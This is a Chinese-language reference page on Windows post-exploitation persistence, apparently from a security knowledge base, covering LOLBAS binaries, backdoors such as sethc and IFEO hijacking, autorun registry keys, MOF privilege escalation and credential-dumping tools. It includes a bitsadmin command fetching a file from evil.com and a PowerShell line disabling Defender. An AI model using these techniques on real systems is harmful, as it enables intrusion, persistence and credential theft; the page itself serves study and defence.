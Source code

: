 持久化 - Windows
========================================

隐藏文件
----------------------------------------
- 创建系统隐藏文件
    - ``attrib +s +a +r +h filename`` / ``attrib +s +h filename``
- 利用NTFS ADS (Alternate　Data　Streams) 创建隐藏文件
- 利用Windows保留字
    - ``aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9``

LOLBAS
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- bitsadmin.exe
    - 下载文件 ``bitsadmin /transfer <job_name> /priority <priority> <remote_path> <local_path>``
    - 下载文件 ``bitsadmin /create 1 bitsadmin /addfile 1 https://evil.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1``
    - 复制文件 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset``
    - 代码执行 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset``
- cdb.exe
- certutil.exe
    - 可安装、备份、删除、管理和执行证书
    - 证书存储相关功能
- cmd.exe
- cmstp.exe
- csc.exe
- cscript.exe
    - 执行脚本
- Extexport.exe
- expand.exe
    - 展开一个或多个压缩文件
- mofcomp.exe
- msbuild.exe
    - 构建应用程序
- mshta.exe
    - HTML应用
- msxsl
    - 处理XSL程序
- netsh.exe
- installutil.exe
    - 安装/卸载程序组件
- IEExec.exe
    - .NET Framework附带程序
- powershell.exe
- psexec.exe
- reg.exe
    - 注册表控制台
- regedit.exe
    - 注册表修改
- regsvr32.exe
    - 注册动态链接库/ActiveX控件
- rundll32.exe
    - 执行DLL文件中的内部函数
- sc.exe
    - 查看服务状态管理
- schtasks.exe
    - 定时计划任务
- shred
    - 重复写入文件，防止文件恢复
- type.exe
    - 利用ads隐藏文件 ``type <filepath> <target_file:ads>``
- wmic.exe
    - Windows管理工具
- windbg.exe
- wscript.exe
    - 脚本引擎
- waitfor.exe
    - 用于同步网络中计算机，可以发送或等待系统上的信号。

后门
----------------------------------------

sethc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``sethc.exe`` 是 Windows系统在用户按下五次shift后调用的粘滞键处理程序，当有写文件但是没有执行权限时，可以通过替换 ``sethc.exe`` 的方式留下后门，在密码输入页面输入五次shift即可获得权限。

映像劫持
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在高版本的Windows中，替换程序是受到系统保护的，需要使用其他的技巧来实现替换。

具体操作为在注册表的 ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option`` 下添加项 ``sethc.exe`` ，然后在 ``sethc.exe`` 这个项中添加 ``debugger`` 键，键值为恶意程序的路径。

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows下有 ``schtasks`` 和 ``at`` 两种计划任务机制。 其中 ``at`` 在较高版本的Windows中已经弃用。

设置命令为 ``schtasks /create /tn "TEST_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"`` 、 ``schtasks /create /tn "TEST_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"`` 。删除命令为 ``schtasks /delete /tn "TEST_OnLogon" /f`` 。

登录脚本
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以在用户登录前执行脚本，使用 ``HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 设置。

也可在 ``HKCU\Environment\`` 路径下设置 ``UserInitMprLogonScript`` 来实现。

屏幕保护程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以自定义屏幕保护程序，使用 ``HKEY_CURRENT_USER\Control Panel\Desktop`` 设置。

隐藏用户
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以使用在用户名后加入 ``$`` 来创建隐藏用户，这种帐户可在一定条件下隐藏，但是仍可以通过控制面板查看。

在创建隐藏用户的基础上，可以修改注册表的方式创建影子用户，这种方式创建的用户只能通过注册表查看。

CLR
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CLR (Common Language Runtime Compilation) 公共语言运行时，是微软为.NET产品构建的运行环境，可以粗略地理解为.NET虚拟机。

.NET程序的运行离不开CLR，因此可以通过劫持CLR的方式实现后门。

Winlogon Helper DLL后门
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Winlogon是一个Windows组件，用来处理各种活动，如登录、注销、身份验证期间加载用户配置文件、关闭、锁定屏幕等。这种行为由注册表管理，该注册表定义在Windows登录期间启动哪些进程。所以可以依靠这个注册表来进行权限维持。

注册表位置如下：

- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`` 用于执行exe程序
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 用于执行exe程序
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify`` 用于执行dll文件

UAC
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
UAC (User Account Control) 是Windows Vista 和 Windows Server 2008 引入的一个安全机制，当一些敏感操作发生时，会跳出提示显式要求系统权限。

当用户登陆Windows时，每个用户都会被授予一个access token，这个token中有security identifier (SID) 的信息，决定了用户的权限。

会触发UAC的操作
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 以管理员权限启动应用
- 修改系统、UAC设置
- 修改没有权限的文件或者目录（ %SystemRoot% / %ProgramFiles% 等 ） 
- 修改ACL (access control list)
- 安装驱动
- 增删账户，修改账户类型，激活来宾账户

ByPass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- DLL相关
- 进程注入
- 注册表

自启动
----------------------------------------

基于注册表的自启动
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过在注册表中写入相应的键值可以实现程序的开机自启动，主要是 ``Run`` 和 ``RunOnce`` ，其中RunOnce和Run区别在于RunOnce的键值只作用一次，执行完毕后会自动删除。

注册表如下：

- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx``

基于策略的自启动注册表设置如下：

- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run``

设置启动文件夹注册表位置如下：

- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders``
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders``
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders``

设置服务启动项注册表位置如下：

- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices``

用户自启动位置 ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 、 ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`` ，其中 ``Userinit`` 键允许指定用逗号分隔的多个程序。

如果用户启动了屏幕保护程序，也可以通过屏幕保护程序来启动后面，相关注册表键值为：

- ``HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive``
- ``HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure``
- ``HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut``
- ``HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE``

基于特定目录的自启动
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
自启动目录， ``C:\Users\Username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`` 目录对特定用户生效， ``C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`` 对所有用户生效。在NT6以前，两个目录为 ``C:\Documents and Settings\Username\Start Menu\Programs\StartUp`` / ``C:\Documents and Settings\All Users\Start Menu\Programs\StartUp`` 。
 
权限提升
----------------------------------------
权限提升有多重方式，有利用二进制漏洞、逻辑漏洞等技巧。利用二进制漏洞获取权限的方式是利用运行在内核态中的漏洞来执行代码。比如内核、驱动中的UAF或者其他类似的漏洞，以获得较高的权限。

逻辑漏洞主要是利用系统的一些逻辑存在问题的机制，比如有些文件夹用户可以写入，但是会以管理员权限启动。

任意写文件利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在Windows中用户可以写的敏感位置主要有以下这些

+ 用户自身的文件和目录，包括 ``AppData`` ``Temp``
+ ``C:\`` ，默认情况下用户可以写入
+ ``C:\ProgramData`` 的子目录，默认情况下用户可以创建文件夹、写入文件
+ ``C:\Windows\Temp`` 的子目录，默认情况下用户可以创建文件夹、写入文件

具体的ACL信息可用AccessChk, 或者PowerShell的 ``Get-Acl`` 命令查看。

可以利用对这些文件夹及其子目录的写权限，写入一些可能会被加载的dll，利用dll的加载执行来获取权限。

MOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
MOF是Windows系统的一个文件（ ``c:/windows/system32/wbem/mof/nullevt.mof`` ）叫做"托管对象格式"，其作用是每隔五秒就会去监控进程创建和死亡。

当拥有文件上传的权限但是没有Shell时，可以上传定制的mof文件至相应的位置，一定时间后这个mof就会被执行。

一般会采用在mof中加入一段添加管理员用户的命令的vbs脚本，当执行后就拥有了新的管理员账户。

凭证窃取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Windows本地密码散列导出工具
    - mimikatz
    - lsass
    - wce
    - gsecdump
    - copypwd
    - Pwdump
    - ProcDump
        - https://docs.microsoft.com/en-us/sysinternals/downloads/procdump
- Windows本地密码破解工具
    - L0phtCrack
    - SAMInside
    - Ophcrack
- 彩虹表破解
- 本机hash+明文抓取
- win8+win2012明文抓取
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash
- 使用 ``net use \\%computername% /u:%username%`` 重置密码尝试次数
- 限制读取时，可crash操作系统后，在蓝屏的dump文件中读取

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 组策略首选项漏洞
- DLL劫持
- 替换系统工具，实现后门
- 关闭defender
    - ``Set-MpPreference -disablerealtimeMonitoring $true``
